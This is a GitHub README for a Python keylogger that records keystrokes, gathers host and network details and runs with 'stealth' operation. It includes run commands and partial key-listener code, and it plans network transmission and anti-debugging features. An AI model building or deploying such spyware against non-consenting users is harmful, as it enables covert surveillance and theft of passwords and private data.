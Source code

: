 # Python Keylogger 

**A Python-based keylogger implementation demonstrating keyboard monitoring and system information collection. For educational/research purposes only.**

⚠️ **Important Legal Disclaimer** ⚠️  
This project is intended **strictly for educational purposes**. Unauthorized use to monitor devices without explicit permission is illegal. Developers assume no liability for misuse.

## Features
- **Keystroke Logging**: Records keyboard inputs with timestamps
- **System Metadata Capture**: Collects hostname, IP addresses, and hardware specs
- **Special Key Handling**: Detects Enter/Space/Backspace
- **Stealth Operation**: Runs with minimal system visibility
- **Cross-Platform**: Compatible with Windows, macOS, and Linux
- **Error Resilience**: Robust exception handling

## Project Structure
- `keylogger.py`: Core logging implementation
- **Modules**:
  - **System Profiler**: Hardware/network data collection
  - **Key Listener**: Keyboard input monitoring
  - **Log Manager**: Secure data storage handling

## Prerequisites
- Python 3.6+
- Administrative privileges (recommended)
- Network connection (for public IP detection)

## Installation & Usage
1. **Clone repository**:
```bash
git clone https://github.com/sabihhuda/Keylogger-Phyton.git
cd python-keylogger
```

2. **Install dependencies**:
```bash
pip install pynput requests
```

3. **Run keylogger**:
```bash
python keylogger.py
```

Logs will be saved to `key_log.txt` in the project directory.

## Configuration
Customize in `keylogger.py`:
```python
# Change log location
LOG_DIRECTORY = "/path/to/custom/folder/"

# Modify logging format
logging.basicConfig(
    format="[%(asctime)s] %(message)s",
    datefmt="%d-%b-%Y %H:%M:%S"
)
```

## Code Snippets
### 1. System Information Collection
```python
def collect_system_info():
    """Gather device metadata"""
    hostname = socket.gethostname()
    logging.info(f"OS Version: {platform.system()} {platform.release()}")
    logging.info(f"Architecture: {platform.machine()}")
```

### 2. Key Press Handler
```python
def on_key_press(key):
    """Process keyboard input"""
    try:
        if key == Key.space:
            logging.info("[SPACE]")
        elif key == Key.enter:
            logging.info("[ENTER]")
        else:
            logging.info(str(key).replace("'", ""))
    except Exception as e:
        logging.error(f"Key processing error: {str(e)}")
```

## Ethical Guidelines
- 🛑 **Legal Compliance**: Always obtain written consent before testing
- 🔐 **Data Security**: Treat logs as sensitive information
- ⚠️ **Responsible Disclosure**: Never deploy on unauthorized systems
- 🧹 **Cleanup**: Remove all logs after educational use

## Future Enhancements
- GUI configuration panel
- Log file encryption
- Network transmission module
- Anti-debugging techniques
- Usage time limitations

## License
MIT License - See [LICENSE](LICENSE) for details

## Contact
For educational inquiries: sabihhuda3@gmail.com  
**Note:** This project is not maintained for production use - created purely for academic demonstration.
